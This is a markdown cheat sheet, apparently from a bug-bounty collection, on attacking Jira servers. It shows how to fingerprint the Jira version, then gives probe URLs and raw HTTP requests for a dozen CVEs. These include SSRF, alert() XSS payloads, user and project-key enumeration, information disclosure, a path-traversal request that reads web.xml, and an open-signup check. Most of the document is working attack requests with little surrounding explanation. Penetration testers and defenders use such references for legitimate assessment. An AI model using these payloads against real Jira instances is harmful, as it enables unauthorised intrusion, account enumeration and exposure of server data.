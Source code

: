 # Jira Common Bugs

## Introduction
What would you do if you came across a website that uses Jira?

## How to Detect
Try to HTTP request to `https://example.com/secure/Dashboard.jspa` or `https://example.com/login.jsp` and there is a form login

1. Find the related CVE by checking jira version
* How to find the jira version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the jira version. If you found outdated jira version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html)

Some example CVE:

- CVE-2017-9506 (SSRF)
```
https://example.com/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
- CVE-2018-20824 (XSS)
```
https://example.com/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
- CVE-2019-8451 (SSRF)
```
https://example.com/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
- CVE-2019-8449 (User Information Disclosure)
```
https://example.com/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
- CVE-2019-8442 (Sensitive Information Disclosure)
```
https://example.com/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
- CVE-2019-3403 (User Enumeration)
```
https://example.com/rest/api/2/user/picker?query=<USERNAME_HERE>
```
- CVE-2020-14181 (User Enumeration)
```
https://example.com/secure/ViewUserHover.jspa?username=<USERNAME>
```
- CVE-2020-14178 (Project Key Enumeration)
```
https://example.com/browse.<PROJECT_KEY>
```
- CVE-2020-14179 (Information Disclosure)
```
https://example.com/secure/QueryComponent!Default.jspa
```
- CVE-2019-11581 (Template Injection)
```
example.com/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

- CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
- CVE-2019-3402 (XSS)
```
https://example.com/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

2. Signup enabled
```
POST /servicedesk/customer/user/signup HTTP/1.1
Host: example.com
Content-Type: application/json

{"email":"test@gmail.com","signUpContext":{},"secondaryEmail":"","usingNewUi":true}
```
